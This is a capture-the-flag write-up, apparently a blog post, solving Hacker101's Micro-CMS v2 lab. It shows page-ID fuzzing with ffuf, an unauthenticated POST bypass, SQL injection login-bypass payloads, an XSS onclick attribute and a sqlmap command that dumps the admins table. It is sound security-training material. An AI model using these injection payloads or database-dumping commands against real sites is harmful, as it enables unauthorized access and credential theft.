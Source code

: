 ```yaml
---
title: "[Hacker101 CTF ] Micro-CMS v2 walkthrough"
datePublished: Sun Jul 02 2023 11:42:41 GMT+0000 (Coordinated Universal Time)
cuid: cljld4ugk000109l27h2l7gu5
slug: hacker101-ctf-micro-cms-v2-walkthrough
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1688298084586/abe6a2cf-89d9-4b24-b376-3c3487ecfe2f.png
tags: ctf, walkthrough, ctf-writeup

---
```


## introduction

* This is a continuation of the previous Micro-CMS v1 challenge from [Hacker101 CTF](https://ctf.hacker101.com/), so I recommend giving it a shot and [reading the previous walkthrough](https://scriptmaker.hashnode.dev/hacker101-ctf) before proceeding with this one.
    
* **This is a challenge containing three flags to teach you some common web vulnerabilities.**
    
* Challenge difficulty: **Moderate**
    

## **Recon( Information Gathering)**

in this stage, you would like to use some tools like [**Nmap**](https://nmap.org/), [**Shodan**](https://www.shodan.io/) and [**Metasploit**](https://www.metasploit.com/)**, etc**.

When I jump into a challenge I like to start by manually investigating what is possible within the constraints of the user interface. In this case, the challenge is a simple CMS with the following features:

1. Micro-CMS Changelog
    
2. Edit page
    
3. Create page
    
4. Login
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1688294370240/7df586a6-078f-4f82-9a85-72dda557755d.png align="left")

It seems like the developers have fixed every vulnerability from the previous challenge! I hope not, but let’s see what we can do. In the previous challenge, we had a hidden page but we don’t know if that’s still the case, so let’s enumerate page IDs again.

```bash
# Create a file called range.txt with numbers from 1 to 50
$ seq 50 > range.txt

# Use the ffuf tool to perform a web application brute-force attack by replacing the keyword "FUZZ" in the URL with each value in the range.txt file
# The -w flag specifies the wordlist to use (in this case, range.txt)
# The -u flag specifies the target URL with the keyword "FUZZ" indicating where the values from the wordlist will be inserted
$ ffuf -w range.txt -u https://<subdomain>.ctf.hacker101.com/page/FUZZ
...
2      [Status: 200, Size: 433, Words: 19, Lines: 16]
1      [Status: 200, Size: 538, Words: 63, Lines: 15]
3      [Status: 403, Size: 234, Words: 27, Lines: 5]
```

We have a page with ID 3 that we have never seen before, but this time trying to access `/page/edit/3` fails since it’s behind authentication. A common mistake by developers is only protecting pages that the client can see (GET requests), but nothing prevents users from sending other [HTTP methods](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods) to the server.

---

### Flag 0

So a GET to `/page/edit/3` yields a `403`, does POST or PUT yield the same HTTP response code?

```bash
# Send a PUT request to the specified URL with ID 3
$ curl -X PUT "https://<subdomain>.ctf.hacker101.com/page/edit/3"

# The server responds with an HTML page containing a 405 Method Not Allowed error,
# indicating that the PUT request method is not allowed for this URL

# Send a POST request to the specified URL with ID 3
$ curl -X POST "https://<subdomain>.ctf.hacker101.com/page/edit/3"

# The server responds with a flag, which is indicated by the "^FLAG^" and "$FLAG$" markers.
```

---

### Flag 1

I feel it’s time to start playing with the new login feature and see if we can get access to these pages.

Going to the `/login` path and sending a single quote (`'`) as the username yields the server error that we can see below:

```haskell
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```

Errors that yield the stack trace are super valuable since it gives us more ideas of what can be exploited. In this case, we can see that the server is using MariaDB and that the error is related to the SQL syntax. We can also see that the query is being built using string interpolation without any escaping or parameterized queries. This means that we can inject SQL code into the query and get the server to execute it.

Sending the username as `'abc' OR 1=1;--` bypasses this username check, but still doesn’t allow us to log in with the message: `Invalid password`. If the username that we used confuses you I recommend going over [this material](https://portswigger.net/web-security/sql-injection) from PortSwigger Academy.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1688296304288/10939e18-aabd-4abd-81a0-e29cdd42c26b.png align="left")

We could go and use something like [sqlmap](https://sqlmap.org/) to automate the SQLi exploitation and dump the entire database, but let’s see how the SQL query is built and try to bypass it manually.

```sql
SELECT password FROM admins 
WHERE username=\'%s\'' % request.form['username'];
```

Thus, I will be able to input the value “abc” for the password and when the SELECT statement is executed, a column “password” will be created and filled with the static value “abc”, where the web application will retrieve the value from the column “password” and compared to the inputted value.

Hence, the result will be true, allowing me to bypass the authentication with any username and the password to be “abc”.  
Here the full SQL injection statement should be.

```sql
-- The injected code uses the UNION operator to combine the original query with another query that selects a hardcoded value ("abc") as the 'password' column,
-- which is then returned as part of the original query result
-- The WHERE clause is modified to always evaluate to true ('1'='1'), which allows the injected query to be executed alongside the original query
admin' UNION SELECT "abc" AS password FROM admins WHERE '1'='1
```

to be clear the whole SQL code must be like this but we modify it for the injection in the username field

```sql
SELECT password FROM admins WHERE username='admin'
UNION SELECT "abc" AS password FROM admins WHERE '1'='1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1688297127249/e5b37a93-1c1e-4e5c-857d-bdfb06ac3e02.png align="left")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1688297143675/1475a284-da6c-4921-82a9-5c1f3919a34e.png align="left")

Head to the private page

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1688297181909/26463024-d432-4d78-9635-50b4e14fd3cc.png align="left")

Found the Flag! One more to go

---

### Flag 2

Now that we have edit powers I tried to cause an XSS in the button within the Markdown Test page, as we did on the previous challenge. To do that you just need to edit that page and add an attribute `onclick="alert(1)"` and save the page. I played a bunch with it thinking that an admin would see that page and we would be able to get their cookie through XSS, but that was a dead end.  
Eventually, I remembered the HTML comment on the private page from Flag 1.

```haskell
<!-- You got logged in, congrats!  Do you have the real username and password? If not, might want to do that! -->
```

This prompted me to dump the database using sqlmap since I have no idea what the existing username is. Here’s what I did:

```bash
# Use the sqlmap tool to perform a SQL injection attack on the login form of a web application
# The -u flag specifies the target URL (in this case, the login page of the web application)
# The --data flag specifies the POST data to send to the server (in this case, the username and password values)
# The -p flag specifies which parameter to test for SQL injection (in this case, the 'username' parameter)
# The --dbms flag specifies the type of database management system used by the web application (in this case, MySQL)
# The --dump flag tells sqlmap to dump the contents of any databases it is able to access
$ sqlmap -u https://<subdomain>.ctf.hacker101.com/login --data "username=abc&password=xyz" -p username --dbms=mysql --dump
```

We end up being able to read the admins table:

```sql
Table: admins
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | terrie   | joeann   |
+----+----------+----------+
```

And after logging in with these credentials we get our last flag!

Important note: what is sqlmap didn't work for me, you can go to the [Burpsuit](https://portswigger.net/burp) and brute-force the attack using the payload in the intruder tab.

---

## Conclusion

This was an interesting challenge. The lack of auth for the `POST /page/edit/<ID>` endpoint is realistic and easily missed if you are not using a framework that makes new endpoints secure by default. SQLi is a common theme in CTFs, but always a fun thing to exploit.

> ***Happy Hacking  
> See you next post 👋***